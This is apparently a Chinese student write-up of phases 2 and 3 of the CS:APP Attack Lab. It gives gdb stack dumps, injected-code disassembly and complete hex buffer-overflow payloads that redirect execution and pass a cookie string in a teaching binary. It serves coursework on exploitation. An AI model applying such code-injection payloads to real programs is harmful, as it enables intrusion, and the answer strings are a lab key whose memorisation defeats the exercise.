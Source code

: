 调试得到栈顶地址(注入代码地址)：0x55685a38
```c
(gdb) x/80xb $rsp
0x55685a38:     0xbf    0xf0    0x10    0x75    0x7d    0xc3    0x00    0x00
0x55685a40:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55685a48:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55685a50:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55685a58:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55685a60:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55685a68:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55685a70:     0xe6    0x18    0x40    0x00    0x00    0x00    0x00    0x00
0x55685a78:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x55685a80:     0x59    0x20    0x40    0x00    0x00    0x00    0x00    0x00
```
**答案：**
```txt
bf f0 10 75 7d c3 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
38 5a 68 55 00 00 00 00
e6 18 40 00 00 00 00 00
```

### phase3

cookie(去掉前缀0x)当字符串转ASCLL码``37 64 37 35 31 30 66 30``


注入代码：
```txt
inject_code2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	5f                   	pop    %rdi
   1:	c3                   	retq   
```

栈顶地址不变还是(注入代码地址)：0x55685a38
通过计算偏移量得到注入的cookie字符串地址为:0x55685a88
**答案：**
```txt
5f c3 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
38 5a 68 55 00 00 00 00
88 5a 68 55 00 00 00 00
fd 19 40 00 00 00 00 00
37 64 37 35 31 30 66 30
```
